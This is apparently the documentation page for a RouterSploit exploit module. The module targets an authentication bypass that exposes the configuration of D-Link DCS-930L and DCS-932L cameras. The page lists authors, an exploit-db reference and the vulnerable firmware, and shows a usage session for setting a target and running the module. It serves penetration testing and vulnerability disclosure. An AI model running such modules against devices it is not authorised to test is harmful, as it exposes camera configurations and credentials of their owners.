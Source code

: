 # D-Link DCS Cameras Authentication Bypass

## Description
D-Link DCS web cameras allow unauthenticated attackers to obtain the configuration of the device remotely. A copy of the device configuration can be obtained by accessing unprocteted URL.

## Authors
* Roberto Paleari  # vulnerability discovery
* Dino Causevic  # routersploit module

## References
* https://www.exploit-db.com/exploits/24442/

## Vulnerable devices
* D-Link DCS-930L, firmware version 1.04
* D-Link DCS-932L, firmware version 1.02

## Usage
```
rsf > use exploits/dlink/dcs_930l_932l_auth_bypass
rsf (D-Link DCS Cameras Authentication Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


rsf (D-Link DCS Cameras Authentication Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DCS Cameras Authentication Bypass) > run
[*] Running module...
```
